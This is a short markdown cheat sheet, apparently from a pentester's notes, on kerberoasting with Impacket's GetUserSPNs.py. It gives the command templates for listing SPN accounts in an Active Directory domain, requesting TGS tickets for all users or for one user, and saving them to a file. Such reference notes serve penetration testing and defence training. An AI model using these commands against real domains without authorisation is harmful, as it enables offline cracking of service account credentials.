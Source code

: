 ```yaml
---
tags:
  - linux
  - kerberoasting
---
```

# Example Usage
## List SPN Accounts
```shell-session
$ GetUserSPNs.py -dc-ip <DC-IP> <DOMAIN>/<USER> [-target-domain <DOMAIN>]
Password: ****
```
## Request TGS Tickets
`-request` will request all TGS tickets whereas `-request-user <USER>` will request for that specific user.
```shell-session
$ GetUserSPNs.py -dc-ip <DC-IP> <DOMAIN>/<USER> [-target-domain <DOMAIN>] -request[-user <USER>]
```
## Useful Flags
- `-outputfile`: Save the TGS ticket to a file